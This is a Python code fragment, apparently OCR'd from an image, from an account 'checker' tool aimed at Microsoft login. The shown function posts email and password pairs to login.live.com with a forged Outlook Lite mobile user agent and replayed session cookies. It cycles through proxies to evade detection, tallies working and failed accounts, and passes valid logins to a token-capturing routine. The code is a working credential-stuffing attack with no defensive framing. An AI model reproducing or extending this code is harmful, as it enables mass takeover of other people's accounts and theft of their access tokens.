         logger.error(f"Error in all_checker_logic for {Email}: {e}")

async def do_login_protocol_all(user_id: int, Email: str, Password: str, URL: str, PPFT: str,
                                AD: str, MSPRequ: str, uaid: str, RefreshTokenSso: str, MSPOK: str, OParams: str, http_session: aiohttp.ClientSession):
    session = get_user_session(user_id)
    proxy = get_next_proxy()
    if not proxy or not await test_proxy(proxy):
        logger.warning(f"No valid proxy for {Email}, skipping")
        return
    try:
        data_str = (
            f"i13=1&login={Email}&loginfmt={Email}&type=11&LoginOptions=1"
            "&lrt=&lrtPartition=&hisRegion=&hisScaleUnit="
            f"&passwd={Password}"
            "&ps=2&psRNGCDefaultType=&psRNGCEntropy=&psRNGCSLK=&canary=&ctx=&hpgrequestid="
            f"&PPFT={PPFT}"
            "&PPSX=PassportR&NewUser=1&FoundMSAs=&fspost=0&i21=0&CookieDisclosure=0&IsFidoSupported=0"
            "&isSignupPost=0&isRecoveryAttemptPost=0&i19=9960"
        )
        headers = {
            "Host": "login.live.com",
            "Connection": "keep-alive",
            "Content-Length": str(len(data_str)),
            "Cache-Control": "max-age=0",
            "Upgrade-Insecure-Requests": "1",
            "Origin": "https://login.live.com",
            "Content-Type": "application/x-www-form-urlencoded",
            "User-Agent": "Mozilla/5.0 (Linux; Android 9) AppleWebKit/537.36",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
            "X-Requested-With": "com.microsoft.outlooklite",
            "Sec-Fetch-Site": "same-origin",
            "Sec-Fetch-Mode": "navigate",
            "Sec-Fetch-User": "?1",
            "Sec-Fetch-Dest": "document",
            "Referer": f"{AD}haschrome=1",
            "Accept-Encoding": "gzip, deflate",
            "Accept-Language": "en-US,en;q=0.9",
            "Cookie": (
                f"MSPRequ={MSPRequ};uaid={uaid}; RefreshTokenSso={RefreshTokenSso}; "
                f"MSPOK={MSPOK}; OParams={OParams}; MicrosoftApplicationsTelemetryDeviceId={uuid.uuid4()}"
            )
        }
        async with http_session.post(URL, data=data_str, headers=headers, proxy=f"http://{proxy}", allow_redirects=False, timeout=10) as res:
            cook = res.cookies
            hh = res.headers
            if any(k in cook for k in ["JSH", "JSHP", "ANON", "WLSSC"]) or await res.text() == "":
                with user_sessions_lock:
                    session["good_count"] += 1
                    session["total_checked"] += 1
                await do_get_token_all(user_id, Email, Password, cook, hh, http_session)
            else:
                with user_sessions_lock:
                    session["bad_count"] += 1
                    session["total_checked"] += 1
                logger.info(f"Bad Account: {Email} | {Password}")
    except Exception as e:
        logger.error(f"do_login_protocol_all error for {Email}: {e}")

